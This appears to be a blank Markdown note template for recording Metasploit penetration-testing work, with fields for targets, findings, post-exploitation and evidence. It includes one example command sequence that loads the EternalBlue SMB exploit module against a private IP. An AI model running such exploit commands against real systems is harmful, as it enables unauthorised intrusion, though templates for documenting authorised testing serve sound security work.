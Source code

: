 # 🛠️ Metasploit Note

**Date:**  
**Campaign / Target:**  
**Author:**  

---

## 🎯 Objective
(What am I trying to accomplish with Metasploit — exploit, post-exploit, module test?)

---

## 🔍 Target Info
- IP / Hostname:  
- Port(s):  
- Service / Version:  
- OS / Notes:  

---

## ⚙️ Modules / Commands
    # Example usage
    msfconsole
    use exploit/windows/smb/ms17_010_eternalblue
    set RHOSTS 10.0.0.5
    set LHOST 10.0.0.10
    run

---

## 🧾 Output / Findings
(Quick paste of console output, meterpreter notes, successful/failed attempts)

---

## 🔐 Post-Exploitation Notes
- Privilege escalation attempts:  
- Persistence tests:  
- Data exfiltration notes:  

---

## 🧩 Artifacts / Evidence
`/Evidence/metasploit/` — list files/screenshots/logs

---

## 🧭 Next Steps
-  
-  

---

**References:**  
(MSF module docs, exploit-db, metasploit-framework docs)
